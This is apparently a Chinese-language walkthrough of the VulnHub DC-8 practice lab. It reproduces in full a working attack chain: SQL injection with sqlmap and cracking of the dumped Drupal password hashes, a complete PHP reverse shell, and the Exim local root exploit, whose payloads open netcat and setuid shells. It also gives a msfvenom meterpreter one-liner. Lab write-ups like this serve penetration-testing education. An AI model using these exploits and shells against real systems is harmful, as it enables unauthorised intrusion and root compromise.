




# DC8-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-8,367/

**Description**

DC-8 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This challenge is a bit of a hybrid between being an actual challenge, and being a "proof of concept" as to whether two-factor authentication installed and configured on Linux can prevent the Linux server from being exploited.

The "proof of concept" portion of this challenge eventuated as a result of a question being asked about two-factor authentication and Linux on Twitter, and also due to a suggestion by @theart42.

The ultimate goal of this challenge is to bypass two-factor authentication, get root and to read the one and only flag.

You probably wouldn't even know that two-factor authentication was installed and configured unless you attempt to login via SSH, but it's definitely there and doing it's job.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**知识点**
- exim4 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```



排除法,去掉自己、宿主机、网关, `192.168.141.141` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.141
```


开放了 SSH 和 WEB 服务,从 WEB 开始,发现是个 Drupal 7,想到 DC1 的几个漏洞,尝试一下



---

# 中期-漏洞利用

```
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.141
run
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.141.141
run
```

都不行,还有一个 CVE-2018-7602 需要认证,就先 pass

点击左侧链接,出现 nid 参数,这个参数貌似可以注入


SQLMAP 走起
```
sqlmap -u http://192.168.141.141/?nid=1 --dbs --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db --tables --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db -T users --dump --batch
```


```
admin 	$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
john 	$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

用 hashcat 跑一下

```
echo "\$S\$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z" > pass.txt
echo "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF" >> pass.txt
hashcat -m 7900 -a 0 pass.txt /usr/share/john/password.lst
```


只跑出 john 的密码 turtle,那先用这个账号登录

回过头去测 CVE-2018-7602 也是一个方法,不过公开的 poc 利用于 Drupal 8,7当然也是受影响的,你可以尝试修改 poc

在爆破的时候顺带扫一下目录,发现有个登陆点 `http://192.168.141.141/user`

登陆后发现有一处直接执行 php 代码的地方


是个表单设置,可能要用 Contact us 触发

和 DC7 一样的 PHP 反向 shell 代码

`!!!注意: 一定要在 php 代码最前面加一些字符,大坑,搞了好久才发现!!!`

```php
rdfgdfgdfgsdfgsfgsdf

<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.141.134';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


kali 监听
```
nc -nlvp 4444
```




---

# 后期-提权

找找可以提权的东西2
```
python -c "import pty;pty.spawn('/bin/bash')"
find / -perm -u=s 2>/dev/null
```



挨个找过去,在 exim4 里发现几个漏洞
```
exim4 --version
searchsploit -w exim 4.89
```


DOS 和命令执行先 pass,测一下提权 https://www.exploit-db.com/exploits/46996

将 poc 保存到 tmp 目录下
```bash
cd /tmp

tee pri.sh <<-'EOF'
METHOD="setuid" # default method
PAYLOAD_SETUID='${run{\x2fbin\x2fsh\t-c\t\x22chown\troot\t\x2ftmp\x2fpwned\x3bchmod\t4755\t\x2ftmp\x2fpwned\x22}}@localhost'
PAYLOAD_NETCAT='${run{\x2fbin\x2fsh\t-c\t\x22nc\t-lp\t31337\t-e\t\x2fbin\x2fsh\x22}}@localhost'

# usage instructions
function usage()
{
	echo "$0 [-m METHOD]"
	exit 1
}

function exploit()
{
	exec 3<>/dev/tcp/localhost/25

	read -u 3 && echo $REPLY
	echo "helo localhost" >&3
	read -u 3 && echo $REPLY
	echo "mail from:<>" >&3
	read -u 3 && echo $REPLY
	echo "rcpt to:<$PAYLOAD>" >&3
	read -u 3 && echo $REPLY
	echo "data" >&3
	read -u 3 && echo $REPLY
	for i in {1..31}
	do
		echo "Received: $i" >&3
	done
	echo "." >&3
	read -u 3 && echo $REPLY
	echo "quit" >&3
	read -u 3 && echo $REPLY
}

while [ ! -z "$1" ]; do
	case $1 in
		-m) shift; METHOD="$1"; shift;;
		* ) usage
		;;
	esac
done
if [ -z $METHOD ]; then
	usage
fi

if [ $METHOD = "setuid" ]; then

	echo "Preparing setuid shell helper..."
	echo "main(){setuid(0);setgid(0);system(\"/bin/sh\");}" >/tmp/pwned.c
	gcc -o /tmp/pwned /tmp/pwned.c 2>/dev/null
	if [ $? -ne 0 ]; then
		echo "Problems compiling setuid shell helper, check your gcc."
		echo "Falling back to the /bin/sh method."
		cp /bin/sh /tmp/pwned
	fi
	echo

	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_SETUID
	exploit
	echo

	echo "Waiting 5 seconds..."
	sleep 5
	ls -l /tmp/pwned
	/tmp/pwned

elif [ $METHOD = "netcat" ]; then
	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_NETCAT
	exploit
	echo
	echo "Waiting 5 seconds..."
	sleep 5
	nc -v 127.0.0.1 31337

else
	usage
fi
EOF

bash pri.sh -m netcat
```

耐心等待


这个时候再用 kali 新建一个 bind shell 连接
```
nc -nv 192.168.141.141 31337
```


提权成功,感谢靶机作者 @DCUA7

---

# 补充

php 反弹 shell 那一步除了网上找到的 php 源码外,还可以直接回弹个 meterpreter shell,一条命令生成
```
msfvenom -p php/meterpreter_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.php
```
